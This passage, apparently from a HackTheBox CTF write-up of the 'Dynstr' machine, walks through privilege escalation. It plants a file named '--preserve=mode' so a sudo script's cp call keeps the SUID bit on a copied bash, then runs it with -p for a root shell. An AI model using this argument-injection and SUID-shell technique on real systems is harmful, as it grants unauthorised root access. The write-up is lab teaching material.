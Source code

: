 `$ cp /bin/bash .`

Now let's give it an SUID bit and preserve that mode on the binary using 
```
$ chmod +s ./bash
$ echo > --preserve=mode
$ ls -al
total 1164
drwxrwxrwt  2 root    root        100 Oct  9 07:33  .
drwxr-xr-x 17 root    root       3940 Oct  9 05:56  ..
-rwsr-sr-x  1 bindmgr bindmgr 1183448 Oct  9 07:22  bash
-rw-rw-r--  1 bindmgr bindmgr       1 Oct  9 07:33 '--preserve=mode'
-rw-rw-r--  1 bindmgr bindmgr       2 Oct  9 07:33  .version



```

Thus when we execute the script as sudo, we will get a privileged binary in `/etc/bind/named.bindmgr/`.

```
bindmgr@dynstr:/dev/shm$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
bindmgr@dynstr:/dev/shm$ ls -al /etc/bind/named.bindmgr/bash 
-rwsr-sr-x 1 root bind 1183448 Oct  9 07:35 /etc/bind/named.bindmgr/bash
```

We have successfully created the SUID binary. Let us run the binary to get the root shell.

```
bindmgr@dynstr:/dev/shm$ /etc/bind/named.bindmgr/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1001(bindmgr) gid=1001(bindmgr) euid=0(root) egid=117(bind) groups=117(bind),1001(bindmgr)
bash-5.0#
```
We can see that the shell is running as root with the `euid` set to root.

root.txt can be found in the /root folder.

```
# cat root.txt
4b******************************
```



